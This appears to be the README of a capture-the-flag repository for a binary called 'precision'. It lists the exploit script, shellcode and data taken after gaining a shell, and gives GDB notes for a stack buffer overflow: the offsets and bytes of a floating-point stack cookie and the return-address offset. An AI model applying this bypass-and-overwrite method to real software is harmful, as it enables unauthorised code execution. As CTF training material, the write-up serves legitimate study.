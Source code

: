 ### Files ###
__Disassembly__ - A commented disassembly of the main function of precision exec

__exploit.py__ - A python program that exploits the precision exec

__intel__ - Some things i grabbed off the server once i had a shell

__precision_a8f6f0590c177948fe06c76a1831e650__ - The executable to exploit

__rootshell__ - Shellcode that spaws a shell. It attempts root but that didnt
seem to work on the remote server. Not supprising.

### My notes for exploiting the executable ###
; >>> break *0x8048583

; The plan is to overrun the buffer with a cyclic pattern then once we hit

; the breakpoint, Examin the memory stored in $esp+0x98.

; >>> x /w $esp+0x98 << Identify the offset in the payload - CYCLIC VALUE 0x62616168 (1650549096)

;  *** STACK COOKIE OFFSET : 128

;

; Next, move forward 2 instructions then test the values in the FP stack

; >>> info registers st0 st1

; ST0 should have : 0x400580aaaa3ad18d2800 stored

; ST1 will be some interpriation of our cyclic pattern. fldl is magaling it some how.

;

; Run the application again without overruning the input buffer. At the break point

; we need to grab the correct stack cookie value: 

; >>> x /w $esp+0x98 << Identify the stack cookie bytes.

;  *** STACK COOKIE BYTES: 0xa5, 0x31, 0x5a, 0x47, 0x55, 0x15, 0x50, 0x40

;

; Next, send the cyclic pattern up with the stack cookie spliced in.

;

; Identify the offset that ends up in the instruction pointer.

; >>> break *0x80485d7

; step forward 1 instruction.  GDB will tell you it cannot read memory at [SOME VALUE] - CYCLIC PATTERN in IP: 0x6261616d

;  *** INSTRUCTION POINTER OFFSET : 148

;

; OTHER NOTES:

; Default stack cookie value @ esp+0x98 : 0x475a31a5, 0x40501555

; Value in ST0 : 0x400580aaaa3ad18d2800
